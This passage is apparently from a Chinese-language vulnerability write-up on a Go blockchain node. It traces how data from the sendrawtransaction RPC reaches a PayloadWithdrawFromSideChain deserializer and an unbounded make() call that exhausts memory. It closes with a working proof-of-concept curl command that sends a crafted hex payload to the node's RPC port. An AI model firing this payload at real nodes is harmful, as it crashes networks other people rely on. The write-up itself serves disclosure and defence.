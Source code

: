 根据如上标红代码可以发现SendRawTransaction函数会先取RPC接口传来的data参数复制给变量str，然后变量str会转换为bytes复制给变量bys，最后bys变量会被带入Transaction的Deserialize函数中。

再看看Transaction的Deserialize函数：

```
func(tx * Transaction) Deserialize(r io.Reader) error `{`
    // tx deserialize
    if err: =tx.DeserializeUnsigned(r);
    err != nil `{`
        //略
        return nil
    `}`
    //略
```

参数r被带入了Transaction的DeserializeUnsigned函数中，继续跟踪一下：

```
func(tx * Transaction) DeserializeUnsigned(r io.Reader) error `{`
    //略
    tx.Payload,
    err = GetPayload(tx.TxType) if err != nil `{`
        return err  
    `}`  err = tx.Payload.Deserialize(r, tx.PayloadVersion)
    //略
    return nil
`}`
func GetPayload(txType TransactionType)(Payload, error) `{`
    var p Payload
    switch txType `{`
        //略
    case WithdrawFromSideChain:
        p = new(PayloadWithdrawFromSideChain)
    case TransferCrossChainAsset:
              p = new(PayloadTransferCrossChainAsset)
    default:
        return nil,
        errors.New("[Transaction], invalid transaction type.")  
    `}`
    return p,
    nil
`}`
```

在该函数中会先通过GetPayload(tx.TxType)来取到tx.Payload，然后会调用tx.Payload的Deserialize函数，只要能控制Payload的类型为PayloadWithdrawFromSideChain，就可以触发PayloadWithdrawFromSideChain的Deserialize函数，而Transaction是通过RPC接口远程传来的，所以tx对象的字段都是可控的。

最终的利用链：RPC的SendRawTransaction接口-&gt;Transaction的Deserialize函数-&gt;Transaction的DeserializeUnsigned函数-&gt;通过GetPayload取到取到PayloadWithdrawFromSideChain对象-&gt;调用其的Deserialize函数-&gt;触发make-&gt;OOM

PoC：

```
curl--data - binary '`{`"method":"sendrawtransaction","params":`{`"data":"0701100000000196ffffffffff"`}``}`' - H 'Content-Type:application/json'http: //*.*.*.*:20336
```
